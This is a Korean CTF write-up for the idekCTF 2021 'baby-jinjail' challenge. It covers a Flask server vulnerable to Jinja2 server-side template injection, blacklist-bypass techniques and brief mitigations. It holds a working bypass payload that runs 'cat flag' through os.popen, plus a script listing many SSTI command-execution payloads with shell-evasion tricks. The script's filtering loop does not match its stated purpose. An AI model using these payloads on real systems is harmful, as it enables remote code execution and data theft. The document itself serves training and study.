

# baby-jinjail


구분: 공통 문제
난이도: Easy
분야: Web
상태: 작성 완료
생성일: 2026년 8월 31일 오후 5:43
수정일: 2026년 8월 31일 오후 5:45

# 0. 문제 정보

| 항목 | 내용 |
| --- | --- |
| 문제명 | baby-jinjail |
| 원본 대회 | idekCTF 2021 |
| 분야 | Web |
| 난이도 | 초급~중급 · 약 2/5 |
| 접속 주소 | `http://localhost:1350` |
| 플래그 형식 | `FLAG{...}` |

# 1. 문제 요약




- 사용자에게 이름을 입력받는다. 여기서 render_templete을 통해 jinja2 ssti가 생김
- ssti 문제 하지만 black list가 있음
- blacklist를 우회해서 flag요청

---

# 2. 문제 분석

- 전체코드
    
    ```python
    from flask import Flask, render_template_string, request
    
    app = Flask(__name__)
    blacklist = [ 
        'request',
        'config',
        'self',
        'class',
        'flag',
        '0',
        '1',
        '2',
        '3',
        '4',
        '5',
        '6',
        '7',
        '8',
        '9',
        '"',
        '\'',
        '.',
        '\\',
        '`',
        '%',
        '#',
        ]
    
    error_page = '''
            
            
            <center>
               <section class="section">
                  <div class="container">
                     <h1 class="title">Error :(</h1>
                     <p>Your request was blocked. Please try again!</p>
                  </div>
               </section>
            </center>
            
            '''
    
    @app.route('/', methods=['GET', 'POST'])
    def index():
        if request.method == 'POST':
            if not request.form['q']:
                return render_template_string(error_page)
    
            if len(request.form) > 1:
                return render_template_string(error_page)
    
            query = request.form['q'].lower()
            if '{' in query and any([bad in query for bad in blacklist]):
                return render_template_string(error_page)
    
            page = \
                '''
            {}
            {}
            <center>
               <section class="section">
                  <div class="container">
                     <h1 class="title">You have entered the raffle!</h1>
                     <ul class=flashes>
                        <label>Hey {}! We have received your entry! Good luck!</label>
                     </ul>
                     </br>
                  </div>
               </section>
            </center>
            {}
            '''.format(query)
    
        elif request.method == 'GET':
            page = \
                '''
            
            
            <center>
                <section class="section">
                  <div class="container">
                     <h1 class="title">Welcome to the idekCTF raffle!</h1>
                     <p>Enter your name below for a chance to win!</p>
                     <form action='/' method='POST' align='center'>
                        <p><input name='q' style='text-align: center;' type='text' placeholder='your name' /></p>
                        <p><input value='Submit' style='text-align: center;' type='submit' /></p>
                     </form>
                  </div>
               </section>
            </center>
            
            '''
        return render_template_string(page)
    
    app.run('0.0.0.0', 1337)
    
    ```
    

주요 코드 

```python
blacklist = [ 'request','config','self',
    'class',
    'flag',
    '숫자',
    '"',
    '\'',
    '.',
    '\\',
    '`',
    '%',
    '#',
    ]
    
    
 page = '''<label>Hey {}! We have received your entry!'''.format(query)
    return render_template_string(page)<- ssti

```

### ssti란?

서버가 사용자 입력을 템플릿 데이터가 아니라 템플릿 코드로 해석할 때 생기는 취약점 위에서 query에 {{7*7}}을 입력하면 render과정에서 탬플릿인 jinja2가 {{7*7}}를 계산해 49로 랜더링 한다.

여기서  jinja2가 할 수 있는 함수나 그런게 제한되어 있어서 파이썬 클래스의 상위참조를 사용한다. 따라서 공격자는 직접 시스템 함수를 호출하기보다, 현재 접근 가능한 Python 객체의 클래스와 상위 클래스 구조를 따라가며 다른 객체나 기능에 접근하려고 시도한다.

예를들어 "hello".__class__ →<class 'str'>, str.__base__ → object, object.**subclasses**()→ <class 'subprocess.Popen'> 이런식으로 클래스를 찾아서 로드

| 속성 | 의미 |
| --- | --- |
| `__class__` | 객체의 클래스 |
| `__mro__` | 클래스 상속 탐색 순서 |
| `__base__` | 직접적인 부모 클래스 |
| `__subclasses__()` | 해당 클래스의 하위 클래스 목록 |
| `__globals__` | 함수가 참조하는 전역 네임스페이스 |

이글루에서 payload 나온 것들 


---

# 3. 풀이과정

lipsum
→ **globals**
→ globals["os"]
→ os.popen("cat flag")
→ .read()

| 블랙리스트 | 우회 방식 | 사용된 표현 | 결과/의미 |
| --- | --- | --- | --- |
| `.` | `attr()` 사용 | `obj|attr(name)` | `obj.name`과 유사 |
| `'`, `"` | 문자열 직접 작성 대신 dict key + join | `dict(os=x)|join` | `"os"` 생성 |
| `flag` | 문자열 분할 후 연결 | `(dict(fl=x)|join)~(dict(ag=x)|join)` | `"flag"` 생성 |
| `0~9` | 컨테이너 길이 사용 | `dict(a=x,b=x,c=x,d=x)|length` | 숫자 `4` 생성 |
| 공백 | 문자열 padding 사용 | `"cat".center(4)`에 해당 | `"cat "` 생성 |
|  |  |  |  |

```python
{{lipsum|attr((dict(__glo=x)|join)~(dict(bals__=x)|join))|attr(dict(__getitem__=x)|join)(dict(os=x)|join)|attr(dict(popen=x)|join)(((dict(cat=x)|join)|center(dict(a=x,b=x,c=x,d=x)|length))~(dict(fl=x)|join)~(dict(ag=x)|join))|attr(dict(read=x)|join)()}}
```


---

# 4. 보안조치

- 사용자 입력을 템플릿 문자열에 직접 삽입하지 않기
- `render_template_string()` 주의
- 필요한 값만 allowlist 사용

---

# 5. 기록

[https://www.igloo.co.kr/security-information/웹-템플릿-엔진-기반의-ssti-취약점-분석/](https://www.igloo.co.kr/security-information/%EC%9B%B9-%ED%85%9C%ED%94%8C%EB%A6%BF-%EC%97%94%EC%A7%84-%EA%B8%B0%EB%B0%98%EC%9D%98-ssti-%EC%B7%A8%EC%95%BD%EC%A0%90-%EB%B6%84%EC%84%9D/)

```python
#!/usr/bin/env python3
"""
CTF용
SSTI 탐지 페이로드 목록.
cat flag
목록만 반환하고 나머지 페이로드는 알아서 선택
"""

payload = [
    #.(obj|attr(name)), ', "(dict(os=x)|join), flag((dict(fl=x)|join)~(dict(ag=x)|join)), global, 숫자(dict(a=x,b=x,c=x,d=x)|length), 공백 우회(center, rleft), 
    "{{lipsum|attr((dict(__glo=x)|join)~(dict(bals__=x)|join))|attr(dict(__getitem__=x)|join)(dict(os=x)|join)|attr(dict(popen=x)|join)(((dict(cat=x)|join)|center(dict(a=x,b=x,c=x,d=x)|length))~(dict(fl=x)|join)~(dict(ag=x)|join))|attr(dict(read=x)|join)()}}", 
    "{{lipsum.__globals__['os'].popen('cat ./flag').read()}}",
    "{{cycler.__init__.__globals__.os.popen('cat ./flag').read()}}",
    "{{joiner.__init__.__globals__.os.popen('cat ./flag').read()}}",
    "{{namespace.__init__.__globals__.os.popen('cat ./flag').read()}}",
    "{{lipsum|attr('__globals__')|attr('__getitem__')('os')|attr('popen')('cat ./flag')|attr('read')()}}",
    "{{cycler|attr('__init__')|attr('__globals__')|attr('__getitem__')('os')|attr('popen')('cat ./flag')|attr('read')()}}",
    "{{request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('os')|attr('popen')('cat ./flag')|attr('read')()}}",
    "",
    "{{lipsum.__globals__.os.popen('cat${IFS}./flag').read()}}",
    "{{lipsum.__globals__.os.popen('c'~'at'~' .'~'/fl'~'ag').read()}}",
    "{{lipsum|attr((dict(__glo=x)|join)~(dict(bals__=x)|join))|attr(dict(__getitem__=x)|join)(dict(os=x)|join)|attr(dict(popen=x)|join)('cat ./flag')|attr(dict(read=x)|join)()}}",
    "{{lipsum.__globals__.os.popen('cat\t./flag').read()}}",
    "{{lipsum.__globals__.os.popen('cat$IFS./flag').read()}}",
    "{{lipsum.__globals__.os.popen('{cat,./flag}').read()}}",
    "{{lipsum.__globals__.os.popen('cat ./fla?').read()}}",
    "{{lipsum.__globals__.os.popen('cat ./fla*').read()}}",
    "{{lipsum.__globals__.os.popen(\"c''at ./fl''ag\").read()}}",
    "{{lipsum.__globals__.os.popen('c\\at ./f\\lag').read()}}",
    "{{lipsum.__globals__.os.popen(\"cat .$(printf '\\057')flag\").read()}}",
    "{{lipsum.__globals__.os.popen(\"bash -c 'cat${IFS}./flag'\").read()}}",
    "{{lipsum.__globals__.os.popen('echo Y2F0IC4vZmxhZw==|base64 -d|sh').read()}}",
    "{{lipsum.__globals__['__builtins__']['__import__']('subprocess').check_output('cat ./flag',shell=True).decode()}}",
    "{{lipsum|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('subprocess')|attr('check_output')('cat ./flag',shell=True)|attr('decode')()}}",
    #add
    ""
]

def start():
    #필터링 항목 받기
    print("==========SSTI PAYLOAD==========")
    ban_input  =input("필터링 되는 항목들을 입력해주세요 : ")
    ban_list = ban_input.split(",")
    print("=============BANLIST============")
    for i in ban_list:
        print(i)

    #print("================================")
    print("============PAYLOAD============")
    return ban_list
    
def main() -> None:
    banlist = start()
    

if __name__ == "__main__":
    main()
    for i in payload:
        for j in payload:
            if i not in j:
                print(i)

```